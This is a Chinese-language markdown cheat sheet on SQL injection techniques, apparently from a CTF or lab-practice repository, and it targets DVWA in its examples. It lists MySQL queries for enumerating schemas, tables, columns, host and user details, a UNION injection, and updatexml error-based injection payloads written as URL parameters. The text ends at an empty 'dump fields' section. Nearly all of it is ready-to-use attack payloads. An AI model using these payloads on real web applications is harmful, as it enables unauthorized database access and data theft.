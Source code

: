 # SQL注入相关题目
## 注入姿势
### 常规注入
~~~sql
爆数据库名称
select schema_name from information_schema.schemata;
爆表名
select table_name from information_schema.tables where table_schema='dvwa';
爆字段名
select table_schema,column_name,table_name from information_schema.columns where table_name=users and table_schema='dvwa';

主机信息查询
select @@HOSTNAME; 主机名称
select @@datadir;——数据库路径
select @@version_compile_os;——操作系统版本
select @@hostname,@@datadir, @@version_compile_os;

数据库版本信息查询
Select VERSION();  数据库版本信息
Select @@VERSION;  数据库版本信息
Select @@GLOBAL.VERSION;  数据库版本信息
Select database();   数据库名称
select version(),@@version,@@global.version,database();

数据库用户信息查询
select user(); 系统用户和登录主机名
select current_user(); 当前登录用户和登录主机名
select system_user(); 数据库系统用户账户名称和登录主机名
select session_user(); 当前会话用户名和登录主机名
select user(),current_user(),system_user(),session_user();

联合查询
select * from dvwa.guestbook where name= 'test' and 1=2 union select 1,2,3;

concat,group_concat,concat_ws函数
concat和concat_ws的区别在于分隔符的不同
select concat(version(),user(),@@hostname);
~~~
### 报错注入
#### updatexml
~~~sql
爆数据库版本信息
?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

链接用户
?id=1 and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)

链接数据库
?id=1 and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)

爆库
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select schema_name),0x7e) FROM admin limit 0,1),0x7e),1)

爆表
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select table_name),0x7e) FROM admin limit 0,1),0x7e),1)

爆字段
~~~
